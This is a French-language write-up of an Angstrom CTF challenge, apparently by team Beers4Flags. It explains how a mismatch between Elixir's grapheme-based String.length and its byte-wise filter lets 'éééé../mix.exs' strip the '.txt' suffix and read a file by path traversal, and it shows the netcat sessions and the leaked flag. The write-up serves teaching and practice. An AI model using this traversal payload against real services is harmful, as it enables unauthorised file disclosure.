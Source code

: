 # Angstrom - CTF writeup - misc - paste palooza - 150 pts
- Ici on a droit à un programme en [elixir](https://elixir-lang.org/).
- En regardant les [sources](src/pastepalooza/redacted), on voit vite notre but à atteindre dans le fichier [mix.exs](src/pastepalooza/redacted/mix.exs)
```
defmodule PastePalooza.Mixfile do
  use Mix.Project

  def project do
    [
      app: :pastepalooza,
      version: "0.1.0",
      elixir: "~> 1.5",
      start_permanent: Mix.env == :prod,
      deps: deps(),
      flag: "REDACTED"
    ]
  end
```
- En regardant en détail le contenu du programme on tombe sur une partie interessante :
```
defmodule Utility do

  def access(filename) do
    unsafe = "pastes/" <> filename <> ".txt"
    path = filter(unsafe <> <<0>>, "", String.length(unsafe))
    case File.read path do
      {:ok, content} -> content
      {:error, reason} -> "File not found.\n"
    end
  end

  def filter(<< head, tail :: binary >>, acc, n) do
    if n == 0 do
      acc
    else
      n = n - 1
      if head < 33 or head > 126 do
        filter(tail, acc, n)
      else
        filter(tail, acc <> <<head>>, n)
      end
    end
  end
end
```

- filename étant la variable controlée par l'utilisateur.
- Ici on teste donc du path traversal en mettant du ../ dans le nom de fichier, mais evidement cela ne fonctionne pas car le programme ajoute `.txt` en fin de fichier ce qui nous empèche d'aller récupérer le fichier `../mix.exs`
```
➜  ~ nc web.angstromctf.com 3001
Welcome to Paste Palooza!
Currently, only the file access feature is available.
Access a file by entering its name: ../mix.exs
File not found.
```
- En regardant en détail le programme on voit qu'il :
  - concatène `pastes/` notre variable `filename` et l'extension `.txt`
  - concatène le tout avec un null byte `<<0>>` et envoie le tout a la méthode filter en précisant la taille du string.
  - La fonction filter est une fonction récursive qui va passer la chaîne caractère par caractère en excluant les caractères dont le code ascii est inférieur à 33 ou supérieur à 126 via le [bitsring binary](https://hexdocs.pm/elixir/Kernel.SpecialForms.html#%3C%3C%3E%3E/1)

- On cherche donc un moyen d'enlever les quatres derniers caractères `.txt` en fin de notre chaine filename. Pour se faire, il faudrait que la taille trouvé par ` String.length(unsafe)` fasse 4 caractères de moins que la taille de notre chaîne itérée par `<< head, tail :: binary >>` afin de tronquer la chaine et pouvoir récupérer le contenu de mix.exs.

- On tombe sur cette article sur la gestion des caractères unicode par elixir :
https://www.bignerdranch.com/blog/elixir-and-unicode-part-2-working-with-unicode-strings/
> String.length in Elixir will give you the number of graphemes, which is how long the string “looks”. If you want byte_size or a count of codepoints, you’ll have to be explicit about that.

- On se rend compte qu'élixir renvoie dans string.length effectivement la taille apparente, mais non la taille réèlle si l'on envoie des caractères spéciaux :
```
iex> String.length("ë")
1
iex> << head, tail :: binary >> = "ë"
"ë"
iex> head
195
iex> tail
<<171>>
```
- Donc le caractère ë ne prend pas une taille de 1 mais en fait deux valeurs une fois découpé 195 et 171

- On applique donc la même logique au challenge en ajoutant quatres caractères ë en début de chaine qui seront enlevés par le filtre (30 < code ascii < 126) mais qui vont faire paraître la chaine 4 charactères plus petite que ce qu'elle l'est réellement.
- Par consequent les 4 derniers caractères ne seront pas recopiés par la fonction de filtrage et on obtient le flag en envoyant `éééé../mix.exs` en filename :

```
➜  ~ nc web.angstromctf.com 3001
Welcome to Paste Palooza!
Currently, only the file access feature is available.
Access a file by entering its name: éééé../mix.exs
defmodule PastePalooza.Mixfile do
  use Mix.Project

  def project do
    [
      app: :pastepalooza,
      version: "0.1.0",
      elixir: "~> 1.5",
      start_permanent: Mix.env == :prod,
      deps: deps(),
      flag: "actf{elixir_encoding}"
```


By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
